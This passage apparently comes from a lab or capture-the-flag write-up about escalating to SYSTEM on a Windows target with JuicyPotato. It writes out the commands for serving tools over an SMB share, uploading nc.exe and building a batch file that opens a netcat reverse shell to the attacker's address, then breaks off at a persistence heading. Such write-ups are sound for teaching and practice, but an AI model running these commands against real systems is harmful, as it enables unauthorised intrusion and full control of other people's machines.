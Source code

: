 I started smbserver to transfer juicypotato.exe:

`impacket-smbserver share $(pwd) -smb2support`

![](https://i.imgur.com/EtknSw5.png)


Now I have juicypotato.exe on target system:

`copy \\10.10.14.17\share\juicypotato.exe jp.exe`

![](https://i.imgur.com/0c3tqQH.png)




From [here](https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows_10_Pro/CLSID.list), I downloaded **CLSID.list** for Windows 10 pro; and from [here](https://github.com/ohpe/juicy-potato/blob/master/Test/test_clsid.bat), I downloaded **test_clsid.bat** file. 

I uploaded both files using smbserver:

![](https://i.imgur.com/CpdADOw.png)


Now I have **JuciyPotat.exe**, **CLSID.list**, and **test_clsid.bat** on target machine.

I ran **test_clsid.bat**, and after around 10 minutes it finished:

![](https://i.imgur.com/duQtLyO.png)

**result.log** file is created and it showed bunch of CLSID that is related to SYSTEM:

![](https://i.imgur.com/wNNEzhE.png)

Prior to creating Reverse Shell File, I first uploaded nc.exe to target system:

![](https://i.imgur.com/D3ddtrg.png)

Now I created a bat file that will create a reverse shell connection back to my local kali machine:

`echo c:\Users\kohsuke\nc.exe 10.10.14.17 1234 -e cmd.exe > rev.bat`

![](https://i.imgur.com/dFtODfw.png)

Now using any of the CLSID from result.log that is related to SYSTEM with JuciyPotato.exe, I can escalate my privilege:

`jp.exe -l 6666 -p rev.bat -t * -c {CLSID}`

![](https://i.imgur.com/B6AMtjf.png)

Now on my local listener, I have a shell as the SYSTEM:

![](https://i.imgur.com/evRpkHc.png)





## Persistence
### Administrator Password Change
